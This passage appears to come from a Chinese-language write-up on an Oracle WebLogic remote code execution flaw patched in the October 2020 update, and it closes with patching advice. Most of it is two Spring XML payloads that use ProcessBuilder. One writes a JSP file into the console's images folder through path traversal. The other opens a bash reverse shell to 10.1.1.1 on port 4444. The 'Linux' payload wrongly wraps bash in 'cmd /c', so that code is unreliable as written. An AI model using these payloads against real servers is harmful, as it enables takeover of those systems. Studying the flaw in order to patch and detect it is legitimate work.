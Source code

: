 通过此方法，windows可以往images路径下写文件，写入路径为：

../../../wlserver/server/lib/consoleapp/webapp/images/xxx.jsp

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
                           http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>cmd</value>
                <value>/c</value>
                <value><![CDATA[echo hello>
"../../../wlserver/server/lib/consoleapp/webapp/images/hack.jsp"]]></value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

linux直接反弹shell

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
                           http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>cmd</value>
                <value>/c</value>
                <value><![CDATA[bash -i >& /dev/tcp/10.1.1.1/4444 0>&1]]></value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```



## 修复建议

此次 Oracle 官方的 CPU已发布了针对该漏洞的补丁，请受影响用户及时下载补丁程序并安装更新。

及时更新补丁，参考oracle官网发布的补丁:

Oracle Critical Patch Update Advisory - October 2020

*https://www.oracle.com/security-alerts/cpuoct2020traditional.html*

注：Oracle官方补丁需要用户持有正版软件的许可账号，使用该账号登陆[**https://support.oracle.com**](https://support.oracle.com/)后，可以下载最新补丁。



